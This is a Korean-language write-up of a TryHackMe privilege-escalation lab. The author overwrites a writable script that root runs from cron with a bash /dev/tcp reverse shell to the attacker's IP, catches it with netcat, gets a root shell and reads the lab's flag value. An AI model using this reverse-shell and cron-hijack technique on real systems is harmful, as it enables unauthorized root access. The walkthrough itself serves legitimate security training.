 ## Privilege Escalation: Cron jobs
> TryHackMe의 "Linux Privilege Escalation: Cronjobs" 실습을 기반으로, crontab에 등록된 주기적 실행 스크립트의 내용을 악의적으로 수정하여 루트 권한 획득 및 플래그 탈취에 성공하였다.

---

### 1. 실습 개요
- **타겟 머신 IP**: 10.10.233.141
- **공격 머신**: Kali Linux
- **사용 계정**: `karen`
- **권한 상승 방법**: 크론잡(Cronjob)을 통한 루트 쉘 획득
- **실습 일자**: 2025-04-19

---

### 2. 실습 과정

#### 2.1 SSH 접속
```bash
ssh karen@10.10.233.141
```
- karen 계정으로 타겟 머신에 SSH 접속하였다.

![SSH 접속](./screenshots/ssh_connect.png)

---

#### 2.2 crontab 확인 및 취약점 식별
```bash
cat /etc/crontab
```
- 시스템에 등록된 주기 실행(cron) 항목을 확인하였다.

![crontab 확인](./screenshots/cat_crontab.png)

- `/home/karen/backup.sh`가 매분 실행되도록 등록되어 있었으며, 해당 파일은 karen 사용자에게 쓰기 권한이 부여되어 있었다. 이는 권한 상승의 기회를 의미한다.

---

#### 2.3 악성 스크립트 작성

```bash
vi /home/karen/backup.sh
```
- 원래는 zip 명령어로 파일을 백업하는 스크립트였으나, 이를 리버스 쉘 코드로 변경하였다.

```bash
#!/bin/bash
bash -i >& /dev/tcp/10.21.63.129/7777 0>&1
```
- 이 명령어는 bash 셸을 통해 공격자의 머신(10.21.63.129)의 7777 포트로 TCP 연결을 시도하며, 입출력을 해당 연결에 리디렉션함으로써 원격 쉘을 확보할 수 있도록 한다.
- 변경 후 실행 권한을 추가하였다.

```bash
chmod +x /home/karen/backup.sh
```

![악성 스크립트 수정](./screenshots/modify_script.png)

---

#### 2.4 리버스 쉘 대기 및 루트 쉘 획득

- Kali에서 아래와 같이 리버스 쉘 수신을 위해 포트 대기 상태를 설정하였다.

```bash
nc -lvnp 7777
```

- 1분 이내로 타겟 머신에서 루트 권한으로 크론잡이 실행되며, 공격자의 리스닝 포트로 접속이 이루어졌고 루트 권한의 쉘을 획득하였다.

- 루트 쉘 상태에서 플래그 파일을 찾아 읽어냈다.

```bash
find / -name flag5.txt
cat /home/ubuntu/flag5.txt
```

![루트 쉘 및 플래그 획득](./screenshots/root_flag.png)

---

### 3. 최종 결과
- 크론잡에 등록된 스크립트를 수정하여 루트 쉘 획득에 성공하였다.
- flag5.txt 파일에서 플래그 확보: `THM-383000283`

---

### 4. 배운 점

> ✅ 실습을 통해 crontab에 등록된 스크립트가 쓰기 가능한 상태일 경우, 간단한 리버스 쉘 삽입만으로도 루트 권한을 탈취할 수 있다는 점을 명확히 체감할 수 있었다. 주기적 실행 스크립트의 접근 제어 미흡은 치명적인 권한 상승 공격으로 이어질 수 있는 매우 위험한 보안 취약점임을 확인하였다.

